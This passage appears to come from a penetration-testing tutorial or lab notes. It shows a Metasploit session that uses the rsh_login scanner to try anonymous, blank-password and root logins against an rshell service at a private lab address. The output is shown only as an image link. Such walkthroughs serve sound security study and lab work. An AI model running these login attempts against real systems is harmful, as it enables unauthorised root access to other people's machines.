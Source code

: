 **For rshell** we had a module on the metasploit that can be used to connect to rshell service running on the target.
```
msfconsole -q
msf > search rsh_login
msf > use auxiliary/scanner/rservices/rshlogin
msf auxiliay(scanner/rservices/rsh_login) > options
msf auxiliay(scanner/rservices/rsh_login) > set ANONYMOUS_LOGIN true
msf auxiliay(scanner/rservices/rsh_login) > set BLANK_PASSWORD true
msf auxiliay(scanner/rservices/rsh_login) > set RHOSTS 192.168.1.103
msf auxiliay(scanner/rservices/rsh_login) > set USERNAME root
msf auxiliay(scanner/rservices/rsh_login) > set STOP_ON_SUCCESS true
msf auxiliay(scanner/rservices/rsh_login) > show options
msf auxiliay(scanner/rservices/rsh_login) > run
```
**Output**
![](../images/exploiting_rshell_services_1.png)